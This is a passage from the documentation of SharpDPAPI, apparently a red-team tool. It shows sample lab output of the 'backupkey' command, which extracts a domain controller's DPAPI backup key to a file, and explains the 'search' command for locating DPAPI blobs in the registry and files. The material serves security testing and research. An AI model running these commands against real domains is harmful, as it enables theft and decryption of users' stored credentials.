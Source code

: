 
    [*] Action: Retrieve domain DPAPI backup key


    [*] Using current domain controller  : PRIMARY.testlab.local
    [*] Preferred backupkey Guid         : 32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Full preferred backupKeyName     : G$BCKUPKEY_32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Key :
              HvG1sAAAAAABAAAAAAAAAAAAAACUBAAABwIAAACkAABSU0EyAAgAAA...(snip)...


Retrieve the DPAPI backup key for the specified DC, outputting the backup key to a file:

    C:\Temp>SharpDPAPI.exe backupkey /server:primary.testlab.local /file:key.pvk

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.2.0


    [*] Action: Retrieve domain DPAPI backup key


    [*] Using server                     : primary.testlab.local
    [*] Preferred backupkey Guid         : 32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Full preferred backupKeyName     : G$BCKUPKEY_32d021e7-ab1c-4877-af06-80473ca3e4d8
    [*] Backup key written to            : key.pvk


#### search
The **search** comand will search for potential DPAPI blobs in the registry, files, folders, and base64 blobs. Usage:
```
SharpDPAPI.exe search /type:registry [/path:HKLM\path\to\key] [/showErrors]
SharpDPAPI.exe search /type:folder /path:C:\path\to\folder [/maxBytes:<numOfBytes>] [/showErrors]
SharpDPAPI.exe search /type:file /path:C:\path\to\file [/maxBytes:<numOfBytes>]
SharpDPAPI.exe search /type:base64 [/base:<base64 string>]
```
The `search` command works by searching for the following bytes, which represent the header (Version + DPAPI provider GUID) of DPAPI blob structure:

```
0x01, 0x00, 0x00, 0x00, 0xD0, 0x8C, 0x9D, 0xDF, 0x01, 0x15, 0xD1, 0x11, 0x8C, 0x7A, 0x00, 0xC0, 0x4F, 0xC2, 0x97, 0xEB
```

The search command has different arguments depending on the data type being scanned. To designate the data type, use the `/type` argument specifying `registry`, `folder`, `file`, or `base64`. If the `/type` argument is not present, the command will search the registry by default. 

When searching the registry with no other arguments, the command will recursively search the HKEY_LOCAL_MACHINE and HKEY_USERS hives. Use `/path` parameter to specify a root to key to search from (e.g. `/path:HKLM\Software`) and use the `/showErrors` argument to display errors that occuring during enumeration.

When searching a file or folder, specify a path with `/path:C:\Path\to\file\or\folder` and optionally use `/maxBytes:<int>` to specify the number of bytes to read from each file (default: 1024 bytes). The command will read the bytes from the beginning of the file and search for DPAPI blobs. Use `/showErrors` to display an errors that occur during enumeration.
